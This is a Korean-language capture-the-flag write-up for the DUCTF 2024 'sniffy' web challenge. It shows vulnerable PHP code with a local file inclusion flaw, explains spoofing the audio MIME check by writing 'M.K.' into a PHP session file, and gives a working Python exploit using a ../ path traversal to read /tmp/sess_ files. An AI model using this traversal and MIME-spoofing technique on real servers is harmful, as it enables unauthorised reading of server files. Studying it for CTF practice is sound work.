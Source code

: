 `session_start()` 세션이 생성되면, `/tmp/sess_{PHPSESSID}` 파일에 세션 값들이 저장된다. `theme` 파라미터를 통해 `/tmp/sess_{PHPSESSID}` 파일에 입력 값들을 쓸 수 있다.    
       
```php
<?php

$file = 'audio/' . $_GET['f'];
echo $file ; 

if (!file_exists($file)) {
	http_response_code(404); die;
}

$mime = mime_content_type($file);

if (!$mime || !str_starts_with($mime, 'audio')) {
	http_response_code(403); die;
}

header("Content-Type: $mime");
readfile($file);
```    
`f` 파라미터에서 `Local File Inclusion` 취약점이 발생한다. 하지만, `mime_content_type()` MIME 타입 값이 `audio`로 시작하지 않으면 파일을 읽을 수 없다. 플래그가 포함된 `/tmp/sess_{PHPSESSID}` 파일을 읽기 위해서 해당 파일의 MIME 타입이 `audio`가 되도록 해야한다.     

대회 당시에 굉장히 많은 삽질을 하며 결국 풀지 못했다.   

```bash
21  string/c    \!SCREAM!   audio/x-mod
#audio/x-screamtracker-module
21  string  BMOD2STM    audio/x-mod
#audio/x-screamtracker-module
1080    string  M.K.        audio/x-mod
#audio/x-protracker-module
#>0 string  >\0     Title: "%s"
```
풀이를 참고하니 `/etc/apache2/magic`에 MIME 타입들이 정의되어있고, 1080번째 값이 M.K. 문자일 경우에 `audio/x-mod`로 인식한다는 사실을 알게되었다. 즉, `theme` 파라미터에 M.K. 문자를 넣고 `/tmp/sess_{PHPSESSID}` 파일에 접근하면 문제를 해결할 수 있다.    
       
### Exploit Code   
```python
import requests

url = "https://web-sniffy-d9920bbcf9df.2024.ductf.dev" 

SESSID = "w3b"

cookies = {"PHPSESSID" : SESSID }

for i in range(4): 
    r = requests.get(
        f"{url}", cookies=cookies, params={"theme": 'a' * i + 'M.K.' * 300}
    )
    r = requests.get(
        f"{url}/audio.php?f=../../../../../../../../../../../tmp/sess_{SESSID}",
        cookies=cookies
    )
    
    if r.status_code != 403 :
        print(r.text) 
```         
        